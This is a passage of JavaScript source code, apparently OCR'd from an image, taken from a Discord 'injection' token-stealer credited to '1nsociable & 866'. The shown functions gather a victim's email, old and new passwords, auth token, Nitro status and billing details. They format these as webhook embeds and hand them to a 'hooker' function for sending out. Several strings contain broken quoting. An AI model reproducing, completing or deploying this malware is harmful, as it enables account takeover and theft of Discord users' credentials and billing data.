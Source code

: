             value: `Email: **${json.email}**\nOld Password: **${oldpassword}**\nNew Password: **${newpassword}**`,
            inline: true,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}**\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: true,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}.webp`,
        },
        footer: {
          text: ''🎉・Discord Injection By 1nsociable & 866・https://discord.gg/stralistrarp',
        },
      },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val;
  hooker(content);
};

const emailChanged = async (email, password, token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = await getBilling(token);
  const content = {
    username: config.embed_name,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Email Changed**',
            value: `New Email: **${email}**\nPassword: **${password}**`,
            inline: true,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}**\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: true,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}.webp`,
        },
        footer: {
          text: ''🎉・Discord Injection By 1nsociable & 866・https://discord.gg/stralistrarp,
        },